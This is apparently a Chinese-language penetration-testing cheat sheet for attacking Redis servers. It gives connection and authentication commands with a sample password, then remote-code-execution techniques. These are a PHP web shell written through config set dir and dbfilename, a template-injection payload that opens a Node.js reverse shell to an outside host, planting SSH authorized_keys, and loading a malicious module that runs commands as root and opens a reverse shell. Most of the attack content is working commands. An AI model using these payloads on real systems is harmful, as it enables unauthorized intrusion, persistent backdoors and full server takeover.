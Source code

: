 默认情况下，Redis 可以在没有凭据的情况下访问。但是，它可以配置为仅支持密码，或用户名 + 密码。
可以在 redis.conf 文件中使用参数 requirepass 设置密码，或者在服务重新启动时连接并运行 config set requirepass p@ss$12E45 。
另外，用户名可以在 redis.conf 文件中的参数 masteruser 中配置。
如果只配置了密码，则使用的用户名是“default”。

**/etc/systemd/system/redis.service  --> 可写目录揭示**
**/etc/redis/redis.conf --> 配置文件(AUTH crediential)**
```bash
redis-cli -h <ip>
redis-cli -h 192.168.120.85 -a Ready4Redis?
>info
>AUTH <username> <password>
>client list
>CONFIG GET *
```

# RCE
## Exploit
[redis-rogue-server <=5.0.5](https://github.com/n0b0dyCN/redis-rogue-server)
[Redis RCE - 4.\*/5.\*](https://github.com/Ridter/redis-rce?source=post_page-----88a3e0e21f62--------------------------------)
## WebShell
```bash
config set dir /usr/share/nginx/html
10.85.0.52:6379> config set dbfilename redis.php
10.85.0.52:6379> set shell "<?php echo system($_GET['cmd']); ?>"
10.85.0.52:6379> save
```
### payload - html template
```html
{{ ({}).constructor.constructor(
  "var net = global.process.mainModule.require('net'),
       cp = global.process.mainModule.require('child_process'),
       sh = cp.spawn('sh', []);
   var client = new net.Socket();
   client.connect(1234, 'my-server.com', function(){
      client.pipe(sh.stdin);
      sh.stdout.pipe(client);
      sh.stderr.pipe(client);
   });"
)()}}
```
## SSH
```bash
root@Urahara:~# redis-cli -h 10.85.0.52
config get dir
10.85.0.52:6379> config set dir /var/lib/redis/.ssh
10.85.0.52:6379> config set dbfilename "authorized_keys"
10.85.0.52:6379> save
```
## Loading Redis Module
1. Create a Exploit.so: https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
2. upload to target system.
```bash
MODULE LOAD /path/to/mymodule.so
MODULE LIST

127.0.0.1:6379> system.exec "id"
"uid=0(root) gid=0(root) groups=0(root)\n"
127.0.0.1:6379> system.exec "whoami"
"root\n"
127.0.0.1:6379> system.rev 127.0.0.1 9999
```
